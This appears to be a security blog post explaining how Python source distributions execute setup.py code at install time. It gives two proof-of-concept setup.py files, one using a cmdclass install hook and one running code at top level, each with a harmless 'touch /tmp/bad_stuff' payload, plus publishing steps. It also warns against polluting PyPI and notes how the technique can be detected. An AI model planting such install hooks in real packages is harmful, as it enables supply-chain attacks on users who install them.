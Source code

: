 ```yaml
---
title: "Executing Code on Python Package Installs - Malicious Pypi"
date: 2022-09-08T08:39:26-07:00
draft: false
---
```


<br>

# Foreword

Multiple researchers in the community have given dependency confusion and other supply chain attacks a bad name recently. While there are very valid reasons to perform this attack, please do not pollute pypi or any other package manager with typosquatting, stolen code, or other non-targetted attacks in the name of security research. It's no different than spreading malware. The point has been made. Please be responsible.

# Executing code on package install

While most python packages are distributed as wheels, the ["binary" distribution format](https://packaging.python.org/en/latest/specifications/binary-distribution-format/), Pypi also enables developers to distribute their package as [source distributions](https://packaging.python.org/en/latest/specifications/source-distribution-format/) (or sdist). The sdist allows developers to suply the source code as the distribution such that the code is compiled into a wheel by the distutils/setuptools module on the system that installs it by calling the setup.py script that is bundled into the sdist. This will also occur even if the module if the module is downloaded via `pip download`.

As the setup.py script is supplied by the developer, it is easy to hook parts of distutils and supply your own code instead. Most examples use the built-in `cmdclass` parameter on the setup function to hook a specific command given to setup.py. Here is an example:

```python
from setuptools import setup
from setuptools.command.install import install

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

class HookedInstallClass(install):
    def run(self):
        install.run(self)
        bad_stuff()

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
    cmdclass={
        'install': HookedInstallClass,
    },
)
```

You can try this out by simply writing it to a setup.py file in a new directory and running `python setup.py install`

Actually bundling and publishing this code is as easy as `python setup.py sdist` and then uploading it via twine. [See the docs here.](https://docs.python.org/3/distutils/setupscript.html) 

# Without hooking

It's also worth noting that although most examples are hooking other functions using cmdclass in the end python is just running the script you supply and you can get as creative with it as you want. You may still want to keep the setup call however if you would like your module to build and install correctly. The following example will execute code every time setup.py is executed, including when you use it to generate the sdist.

```python
from setuptools import setup

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
)

bad_stuff()
```

# Why is this allowed?

> These are useful for end users wanting to develop your sources, and for end user systems where some local compilation step is required (such as a C extension).

There are many use cases where you might want to compile your code differently on a different machine, check attributes of the system, compile other languages, etc.

# Other thoughts

Attacks on package managers are increasingly being considered as low-effort high-reward opportunities for attackers in much the same way that Android apps and Chrome extensions have historically been abused to distribute malware. This is already becoming a popular attack, and package managers are a particularly soft target due to lack of their own anti-malware teams and permission models.

While it is difficult to prevent these attacks from occurring, it should be easy to detect this technique due to the requirements of a package being distributed as a .tar.gz file and the setup.py entry-point. I hope to see more research in this space.

Thanks to [mschwager](https://github.com/mschwager) for his contributions as well, 0wned is a great example.

# Links

<br>

* https://thehackernews.com/2022/09/warning-pypi-feature-executes-code.html
* https://github.com/mschwager/0wned
